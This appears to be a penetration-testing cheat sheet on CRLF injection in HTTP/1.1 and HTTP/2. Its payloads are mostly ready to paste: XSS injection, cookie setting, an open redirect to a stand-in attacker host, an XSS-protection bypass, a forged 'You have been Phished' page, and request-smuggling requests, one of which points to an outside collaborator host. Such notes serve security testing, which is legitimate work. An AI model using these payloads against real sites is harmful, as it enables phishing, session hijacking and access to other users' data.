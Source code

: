 # Content 
- [HTTP/1.1 CRLF injeciton](#http11-crlf-injeciton)
  - [CRLF injeciton can lead to](#crlf-injeciton-can-lead-to)


## HTTP/1.1 CRLF injeciton
**where to inject** 
- url path
```
http://www.example.net/%0D%0A
```
- parameter
```
http://www.example.net/?param=value%0D%0A
```

### **CRLF injeciton can lead to**
#### XSS
```
http://www.example.net/?name=Bob%0D%0A<script>alert(document.domain)</script>
```
#### add a header

- add cookie

```
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue   
```


- open redirect
```
http://www.example.net/%0D%0ALocation:http://evil.site    
```
- XSS Bypass
```
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e     

```
- Write HTML
```
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E 
```

#### Request Smuggling

if u can add headers 
```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0a HTTP/1.1

HTTP/1.1 200 OK
Connection: keep-alive
```

try to make smuggle request 
```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/redirplz%20HTTP/1.1%0d%0aHost:%20oastify.com%0d%0a%0d%0aContent-Length:%2050%0d%0a%0d%0a HTTP/1.1
```

or try to read other user's data
```
GET /%20HTTP/1.1%0d%0aHost:%20redacted.net%0d%0aConnection:%20keep-alive%0d%0a%0d%0aGET%20/%20HTTP/1.1%0d%0aFoo:%20bar HTTP/1.1
```


## HTTP/2 CRLF injection 
**where to inject** 
- headers


![Screenshot_48](https://github.com/kiro6/penetration-testing-notes/assets/57776872/d87435ea-415c-4df8-85ae-c3edd954803b)

- pseudo-headers


![Screenshot_49](https://github.com/kiro6/penetration-testing-notes/assets/57776872/0ae6ab25-dfdd-454a-b9d5-0b2ccc86925d)
